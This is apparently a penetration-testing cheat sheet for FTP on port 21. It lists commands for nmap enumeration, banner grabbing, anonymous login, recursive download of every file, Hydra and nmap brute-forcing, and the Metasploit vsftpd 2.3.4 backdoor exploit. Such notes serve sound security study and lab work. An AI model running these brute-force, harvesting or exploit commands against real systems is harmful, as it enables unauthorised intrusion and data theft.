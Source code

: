 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# 21 - FTP

## Nmap Scripts

```bash
# Enum FTP with all NSE
nmap -p21 --script=ftp-* $IP

# Perform brute-force
nmap -p21 --script=ftp-brute --script-agrs userdb=/wordlists/users.txt $IP
```

## Banner Grabbing

```bash
nc -nv $IP 21
openssl s_client -connect $IP:21 -starttls ftp
```

## FTP tools

```bash
ftp $IP
>anonymous        # Username
>anonymous        # Password
> status          # Show current status
> ls -a           # List hidden files
> ls -R           # Recursively listing files
> get file.txt    # Download a file (file.txt)
> put file.txt    # Upload a file (file.txt)
> exit            # Exit 
```

## Download all files

```bash
# Download recursively
wget -m ftp://'anonymous:anonymous'@$IP

# Download recursively
wget -m --no-passive ftp://'anonymous:anonymous'@$IP
```

## Hydra

```bash
hydra -L /wordlists/users.txt -P /wordlists/passwords.txt $IP ftp
```

## MSFconsole

```bash
service postgresql start

auxiliary/scanner/ftp/ftp_version          # ftp version enumeration
auxiliary/scanner/ftp/anonymous            # check for anonymous login
auxiliary/scanner/ftp/ftp_login            # ftp brute-force

# vsftpd v2.3.4
exploit/unix/ftp/vsftpd_234_backdoor
```

## General Enumeration

```bash
# View SSL on FTP
openssl s_client -connect $IP:$PORT -starttls ftp

# View Config file
cat /etc/vsftpd.conf | grep -v "#"

# List users can't access to FTP
cat /etc/ftpusers
```
